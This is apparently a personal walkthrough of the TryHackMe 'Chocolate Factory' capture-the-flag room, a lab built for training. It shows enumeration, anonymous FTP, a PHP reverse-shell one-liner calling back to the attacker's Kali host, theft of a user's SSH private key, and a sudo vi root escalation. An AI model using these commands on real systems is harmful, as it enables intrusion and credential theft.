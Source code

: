 # Chocolate Factory

**Room Link:** [https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

**Kali**

```
ftp $VICTIM
Username: anonymous
>binary
>passive
>mget *
```

<figure><img src="../../.gitbook/assets/image (30) (3).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (25) (2).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can run commands here and we see the key\_rev\_key file

![](<../../.gitbook/assets/image (2) (8).png>)



We go there by the url and we can download it

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
strings key_rev_key
```

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





### Web Shell

**Web**

```
php -r '$sock=fsockopen("$KALI",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvp 4444
```

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /var/www/html/
grep password *
```

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

### Shell

I was not able to su into charlie with the password, the credentials did work for the web login but it just brought me to the command page.

**Victim**

```
cd /home/charlie/
cat teleport
```

I copied the teleport private key to kali

**Kali**

```
subl teleport 
chmod 700 teleport
ssh -i teleport charlie@$VICTIM  
```

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Exploit Link:** [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)

Charlie can run vi with no passwd so I just followed the link above to become root

**Victim**

```
sudo -l
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (8).png" alt=""><figcaption></figcaption></figure>



























































